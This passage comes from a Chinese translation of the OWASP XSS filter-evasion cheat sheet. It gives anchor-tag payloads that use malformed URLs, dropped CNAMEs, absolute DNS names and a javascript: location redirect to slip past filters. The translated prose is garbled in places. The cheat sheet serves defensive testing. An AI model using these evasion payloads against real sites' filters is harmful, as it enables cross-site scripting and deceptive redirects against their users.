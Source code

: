 ```
<A HREF="//google">XSS</A>
```

#### 谷歌“感觉幸运”第 2 部分[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#google-feeling-lucky-part-2)

这使用了一个看起来只适用于 Firefox 的小技巧，因为它实现了“感觉幸运”功能。与下一个不同，这在 Opera 中不起作用，因为 Opera 认为这是旧的 HTTP Basic Auth 网络钓鱼攻击，但事实并非如此。这只是一个格式错误的 URL。如果您在对话框上单击“确定”，它将起作用，但是由于错误的对话框，我说 Opera 不支持此功能，并且从 2.0 开始，Firefox 不再支持它：

```
<A HREF="http://ha.ckers.org@google">XSS</A>
```

#### 谷歌“感觉幸运”第 3 部分[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#google-feeling-lucky-part-3)

这使用了一个格式错误的 URL，该 URL 似乎仅在 Firefox 和 Opera 中有效，因为它们实现了“感觉幸运”功能。与上述所有内容一样，它要求您在 Google 中的关键字排名第一（在本例中为“google”）：

```
<A HREF="http://google:ha.ckers.org">XSS</A>
```

#### 删除 CNAME[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#removing-cnames)

与上述 URL 结合使用时，删除`www.`将额外节省 4 个字节，对于正确设置的服务器，总共节省 9 个字节）：

```
<A HREF="http://google.com/">XSS</A>
```

绝对 DNS 的额外点：

```
<A HREF="http://www.google.com./">XSS</A>
```

#### JavaScript 链接位置[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#javascript-link-location)

```
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
```

#### 内容替换作为攻击向量[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#content-replace-as-attack-vector)

假设`http://www.google.com/`以编程方式被替换为空）。`java&\#x09;script:`实际上，我通过使用转换过滤器本身（这里是一个示例）来帮助创建攻击向量（IE：被转换为`java script:`，在 IE 中呈现，Netscape 8.1+ 在安全站点中），对几个独立的现实世界 XSS 过滤器使用了类似的攻击向量模式和歌剧）：

```
<A HREF="http://www.google.com/ogle.com/">XSS</A>
```

